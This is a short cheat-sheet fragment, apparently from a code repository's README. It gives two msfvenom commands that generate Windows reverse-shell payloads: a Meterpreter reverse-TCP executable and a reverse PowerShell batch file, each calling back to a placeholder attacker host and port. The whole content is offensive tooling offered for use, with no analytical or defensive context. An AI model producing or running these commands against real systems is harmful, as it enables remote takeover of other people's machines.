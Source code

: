 Generate Reverse Shell as exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe  LHOST={IP} LPORT={PORT} -o payload.exe
```

Generate Reverse Shell as bat
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST={IP} LPORT={PORT} > 1.bat
```

